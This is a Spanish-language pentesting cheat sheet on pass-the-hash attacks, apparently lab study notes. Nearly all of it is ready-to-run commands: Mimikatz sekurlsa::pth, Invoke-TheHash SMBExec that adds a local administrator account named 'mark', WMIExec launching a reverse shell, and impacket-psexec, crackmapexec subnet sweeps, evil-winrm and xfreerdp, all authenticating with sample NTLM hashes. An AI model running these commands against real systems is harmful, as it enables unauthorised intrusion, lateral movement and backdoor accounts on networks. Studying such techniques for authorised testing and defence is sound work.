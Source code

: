 Si encontramos un hash NTLM podemos hacer uso del mismo aprovechando las facilidades que ofrecen los SO para correr servicios sin tener que poner la contraseña una y otra vez


### WINDOWS
##### Pass the hash con Mimikatz:
Requerimos:
- Hash NTLM o RC4
- User
- Dominio

    mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<hash> /domain:<dominio o nombre del host> /run:<.exe a ejecutar>" exit

##### PTH con Powershell & Invoke-TheHash:
Target - Hostname or IP address of the target.

Username - Username to use for authentication.

Domain - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.

Hash - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.

Command - command to run after connection

        https://github.com/Kevin-Robertson/Invoke-TheHash



        Import-Module .\Invoke-TheHash.psd1



        Invoke-SMBExec -Target <ip/hostname> -Domain <domain> -Username <username> -Hash <hash> -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

Tambien podemos usar revshell para generar una shell reversa y ejecutarla con WMIExec:

creamos la reverse shell:


        https://www.revshells.com/:

        

        Invoke-WMIExec -Target <hostname/ip> -Domain <domain> -Username <username> -Hash <hash> -Command "<reverse_shell_generada>"


### Linux
#### Impacket:

        impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

#### Crackmapexec:
        crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

tambien podemos buscarlo con local accounts:


        sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

#### Evil-winRM:

        evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

#####RDP:
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
